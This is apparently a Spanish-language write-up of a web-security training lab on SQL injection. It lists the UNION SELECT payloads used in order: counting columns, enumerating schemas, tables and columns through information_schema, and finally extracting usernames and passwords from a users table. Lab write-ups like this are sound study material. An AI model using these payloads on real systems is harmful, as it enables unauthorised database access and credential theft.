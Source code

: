 # 📚 Lab: SQL injection attack, listing the database contents on non-Oracle databases 📚

Como sabemos que la base de datos no es oracle y que la vulnerabilidad esta en la categoria de productos, podemos analizar la cantidad de columnas despues de seleccionar un producto con el siguiente comando en la url:  
' UNION SELECT null,null-- -.

Al hacerlo, podremos descubrir que la tabla, tiene dos columnas, luego, con el siguinte comando:  

' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -

Podremos ver las bases de datos, para analizarlas y no tocar bases de datos por defecto de la DBMS.  
Al hacerlo, podremos ver la base de datos "public", la cual nos interesa para este room.

Con el siguiente inyeccion, podremos ver las tablas en la base de datos "public"

' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = 'public'-- -

Donde podremos ver las tablas products y users_xktbui, la cual esta ultima es la que nos interesa.

Para acceder a la informacion de la misma, podremos hacer uso de la siguiente inyeccion:

' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 'users_xktbui'-- -

Al hacerlo, veremos dos columnas que componen a la tabla users, una sera de usuarios y otras de contraseñas:password_ywzksf y username_kifewi.

para acceder a la informaciion de las columnas, haremos uso de la siguiente inyeccion: 

' UNION SELECT username_kifewi,password_ywzksf FROM users_xktbui-- -

Donde le decimos a la base de datos, muestra la columna usermane y password de la tabla users_xktbui, obtiendo asi las credenciales necesarias.

### OPCIONAL,hacerlo de esta forma para mayor orden en los datos

' UNION SELECT CONCAT(username_kifewi,':',password_ywzksf),null FROM users_xktbui-- -
